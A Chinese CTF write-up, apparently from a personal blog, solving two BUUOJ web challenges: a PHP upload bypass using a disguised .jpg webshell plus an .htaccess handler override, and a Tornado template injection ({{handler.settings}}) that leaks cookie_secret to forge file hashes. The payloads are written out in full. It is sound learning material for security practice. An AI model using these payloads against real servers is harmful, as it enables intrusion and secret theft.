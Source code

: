 刷题时间，开始了（嗝

buuoj

# [MRCTF2020]你传你🐎呢

作者好像标题不是很友善啊（笑

页面两个按键，一个是选择文件，另一个“一键去世”应该是上传，是有关file-upload的题目。

试着上传一个a.jpg文件，显示成功：

/var/www/html/upload/838ff4c695364e740fc411af2f0ba54d/a.jpg succesfully uploaded!

传入a.txt则会回显：

我扌your problem?

将：

```php
<?php
	system("echo 'hello world'");
?>
```

写入a.jpg来欺骗一下，发现也能上传成功。

初步猜测是只做了文件扩展名的过滤，访问一下：

The image “http://507dc9f8-34e3-4395-a5f2-84016f0bbd0e.node5.buuoj.cn:81/upload/838ff4c695364e740fc411af2f0ba54d/a.jpg” cannot be displayed because it contains errors."

看来是服务器无法解析，老样子我们来上传一个.htaccess:

别忘了.htaccess文件不能直接创建，我们直接在报文里修改一下filename项，和文件写入的内容就可以：

```
<FilesMatch "1.jpg">
	SetHandler application/x-httpd-php
</FilesMatch>
```

再把phpinfo()写入1.jpg并上传就可以，访问1.jpg，成功输出Php版本信息！

尝试写入system("ls /")，被告知system被禁用，没关系我们可以用scandir()，

根目录下扫到flag，直接输出即可得到flag：

```php
<?php
	var_dump(file_get_contents("/flag"));
?>
```

# [护网杯 2018]easy_tornado

三个目录，flag.txt,/welcome.txt,/hints.txt,

flag.txt: flag in /fllllllllllllag
welcome.txt: render
hints.txt: md5(cookie_secret+md5(filename))

注意到每个子页面的Url上实际GET了两个参数filename和filehash，结合hints，应该是要用filename和一个cookie_secret生成MD5哈希然后传入filehash来作为一个签名验证之类的。

那么关键就是去找到这个cookie_secret。

tornado是一个网页的模板引擎，加之welcome中提示render，很容易想到应该要通过模板注入。

查询一下tornado，我们知道我们的cookie_secret应该是存储在`RequestHandler.application.settings`中，作为一个动态的cookie，里面还包含了一系列环境向量。

这里我们用handler.settings即可以指到我们需要的位置，接着寻找注入点。

filename和filehash都不属于模板变量，没办法注入；于是我们先试试输入filename不带hash验证，发现Error界面还有一个量msg，修改?msg=1发现这是个模板注入量，于是：

?msg={{handler.settings}}

回显：

{'autoreload': True, 'compiled_template_cache': False, 'cookie_secret': '53e61641-d43e-435c-9d03-7690fe68b429'} 

接下来只要按照规则生成md5_hash，当然要注意文件名没有扩展名就是单纯的/fllllllllllllag，求hash之后和cookie拼接再求hash即可成功访问flag文件！

```
echo -n "/fllllllllllllag" | md5sum (--> 3bf9f6cf685a6dd8defadabfb41a03a1)
echo -n "53e61641-d43e-435c-9d03-7690fe68b4293bf9f6cf685a6dd8defadabfb41a03a1" | md5sum
```

```
?filename=/fllllllllllllag&filehash=405fda097f519cbbe7f4bc8f2fe4a5c3
```




